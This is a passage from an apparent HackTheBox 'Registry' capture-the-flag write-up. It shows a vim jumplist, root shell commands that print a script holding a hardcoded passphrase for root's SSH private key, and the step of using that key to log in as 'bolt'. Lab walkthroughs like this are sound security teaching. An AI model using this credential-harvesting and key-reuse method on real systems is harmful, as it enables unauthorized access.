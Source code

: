 # Jumplist (newest first):
-'  1  0  /var/www/html/sync.sh
|4,39,1,0,1558797180,"/var/www/html/sync.sh"
-'  1  0  /etc/profile.d/01-ssh.sh
|4,39,1,0,1558797115,"/etc/profile.d/01-ssh.sh"
-'  1  0  /etc/profile.d/01-ssh.sh
|4,39,1,0,1558797115,"/etc/profile.d/01-ssh.sh"

# History of marks within files (newest to oldest):

> /var/www/html/sync.sh
        *       1558797175      0
        "       1       0

> /etc/profile.d/01-ssh.sh
        *       1558797112      0
        "       1       0
{% endhighlight %}

Print them out and you'll see a hardcoded passphrase for the SSH key!

{% highlight plain_text %}
root@6c855edb286c:~# ls -la /var/www/html/sync.sh
-rwxr-xr-x 1 root root 53 May 25  2019 /var/www/html/sync.sh
root@6c855edb286c:~# 
root@6c855edb286c:~# cat /var/www/html/sync.sh
#!/bin/bash
rsync -azP registry:/var/www/html/bolt .
root@6c855edb286c:~# cat /var/www/html/bolt
cat: /var/www/html/bolt: No such file or directory
root@6c855edb286c:~# cat /etc/profile.d/01-ssh.sh
#!/usr/bin/expect -f
#eval `ssh-agent -s`
spawn ssh-add /root/.ssh/id_rsa
expect "Enter passphrase for /root/.ssh/id_rsa:"
send "GkOcz221Ftb3ugog\n";
expect "Identity added: /root/.ssh/id_rsa (/root/.ssh/id_rsa)"
interact
root@6c855edb286c:~# 
{% endhighlight %}

# SSH Bolt User Enumeration
After adding the SSH key with the passphrase found, we're able to login to "registry.htb" as "bolt". Use the command `ssh bolt@registry.htb` to get to the user shell, where the "user.txt" flag is found.
